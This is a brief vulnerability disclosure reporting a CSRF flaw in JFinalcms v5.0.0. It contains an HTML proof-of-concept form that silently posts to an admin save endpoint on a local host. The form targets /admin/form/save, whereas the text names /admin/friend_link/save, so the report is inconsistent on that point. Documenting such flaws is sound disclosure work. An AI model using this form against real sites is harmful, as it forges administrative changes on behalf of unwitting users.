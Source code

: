 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/friend_link/save

![图片](https://github.com/cui2shark/cms/assets/52313275/a43b5c05-275f-40b6-9841-c03e65d35aea)

create poc

![图片](https://github.com/cui2shark/cms/assets/52313275/8027151d-ce94-4f83-91fa-60c51aa0a00f)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/form/save" method="POST">
      <input type="hidden" name="name" value="cs" />
      <input type="hidden" name="tableName" value="123" />
      <input type="hidden" name="code" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

successed

